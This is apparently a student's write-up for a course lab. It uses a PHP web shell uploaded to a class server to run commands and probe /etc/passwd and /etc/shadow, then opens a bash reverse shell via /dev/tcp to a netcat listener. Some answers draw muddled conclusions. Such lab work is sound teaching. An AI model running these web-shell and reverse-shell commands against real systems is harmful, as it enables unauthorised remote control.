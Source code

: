 # Our first reverse shell

**Name**: Palmy Klangsathorn

---

## Part 1: Installing a PHP web shell

### a. Explain how you can execute the Linux command whoami on the server using your webshell. What result do you get when you execute that command?

**Answer:** To execute the Linux command whoami on the server, I access my web shell by visiting the following URL: [http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=whoami](http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=whoami)

or do this in terminal

```bash
curl "http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=whoami"
```

The `command=whoami` part of the URL sends the `whoami` command to the PHP web shell, which uses the `system()` function in PHP to execute the command on the server. The result I get when I execute `whoami` is `www-data`. This shows that the web server is running under the `www-data` user, which is typical for web servers on Linux.

### b. What is this webshell's `<pre>` tag for? (And more to the point, what happens if you leave it out?)

**Answer:** The `<pre>` tag in HTML is used to format text with preserved whitespace, line breaks, and fixed-width font. In this web shell, using `<pre>` around the PHP code output would display the command output exactly as it appears on the server, including any indentation, line breaks, or spacing, making it easier to read. If the `<pre>` tag is left out, the output may appear condensed, and formatting could be lost, making it harder to interpret multiline command outputs or complex data.

---

## Part 2: Looking around

### a. What directory is danger's website located in?

**Answer:**

```bash
curl "http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=pwd"
```

I got `/var/www/danger.jeffondich.com/uploadedimages`

### b. What are the names of all the user accounts on danger.jeffondich.com? How do you know?

**Answer:**

```bash
curl "http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=ls"
```

Here are what i got, these are some examples of mine:

klangsathornp-dog.jpg
klangsathornp-dog1.png
klangsathornp-webshell.php
klangsathornp-webshell1.php
.
.
.

### c. Do you have access to the file /etc/passwd? What's in it?

**Answer:**

```bash
curl "http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=ls%20/etc/passwd"
```

I got this `curl: (56) Recv failure: Connection reset by peer`

### d. Do you have access to the file /etc/shadow? What's in it? (You'll have to look online for the answer to that second question, since the answer to the first is no.)

**Answer:** No, I don't

```bash
curl "http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=ls%20/etc/shadow"
```

I got this `/etc/shadow`, this output confirmed restricted access

### e. There may be some secret files scattered around. See how many you can find and report on your discoveries.

**Answer:** Search just specifically for files that start with a dot in their names (hidden files)

```bash
curl "http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=ls%20/var/www/danger.jeffondich.com/uploadedimages/%2E%2A"
```

### f. [Optional] Report on anything else interesting you discover.

**Answer:** Here is how to search specifically for files containing my name, klangsathornp, by using a command to filter filenames that match:

```bash
curl "http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=ls%20%2Fvar%2Fwww%2Fdanger.jeffondich.com%2Fuploadedimages%20%7C%20grep%20'klangsathornp'"
```

---

## Part 3: Setup for Part 4

sudo systemctl start apache2

---

## Part 4: launching a reverse shell

### a. What is the IP address of your Kali VM (the target machine)? How did you find out?

**Answer:**

In the Kali VM terminal, run the following command:

```bash
ip a
```

The IP address of my Kali VM is `192.168.64.2`

### b. What are the IP addresses of your host OS (the attacking machine)? How did you find out? Which one should you use to communicate with Kali and why?

**Answer:**

In my computer terminal, run:

```bash
ifconfig
```

Here, I got a long text, look at `bridge100: inet 192.168.64.1`.
IP addresses of my host OS is `192.168.64.1`

### c. On your host OS (the attacker), pick any port number between 5000 and 10000 and run nc -l -p YOUR_CHOSEN_PORT

**Answer:**

```bash
nc -l -p 6000
```

### d. In a browser on your host machine, use your web shell to go to this crazy URL.

**Answer:**

```url
http://192.168.64.2/klangsathornp-webshell.php?command=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.64.1/6000%200%3E%261%22
```

### e. Go back and look at your nc -l -p terminal on your host OS (attacking machine). Do you have a shell now? Is it letting you execute commands on Kali? How do you know it's Kali?

**Answer:**

```bash
nc -l -p 6000
```

In the `nc -l -p 6000` terminal, I now have a shell prompt from the Kali machine. To verify, I typed commands like `whoami`. It returned the username of the Kali VM, confirming that I am executing commands on the Kali machine.

### f. What are all those % codes in the URL you used?

**Answer:** The `%` codes in the URL are URL-encoded characters, used to safely pass special characters within a URL. Here are just some of the examples of the `%` codes:

- `%20` is a space (` `)
- `%3E` is `>`
- `%26` is `&`
- `%2F` replaces slashes (/).
- `%7C` replaces the pipe (|).

These `%` codes ensure that the command is properly interpreted by the web server without issues caused by special characters.

### g. Write a brief description, explaining how this reverse shell is functioning.

**Answer:** A reverse shell allows an attacker (host OS) to gain control of a target machine (Kali) by setting up a listener on the host and initiating a connection from the target to the host. Here’s how it works:

1. **Listener Setup**: The host machine starts a `netcat` listener (`nc -l -p 6000`), waiting for an incoming connection from the target.
2. **Connection Initiation**: On the target machine (Kali), we use a specially crafted command via a web shell (accessed at `http://192.168.64.2/klangsathornp-webshell.php`) to run:
   ```bash
   bash -c "bash -i >& /dev/tcp/192.168.64.1/6000 0>&1"
   ```

---
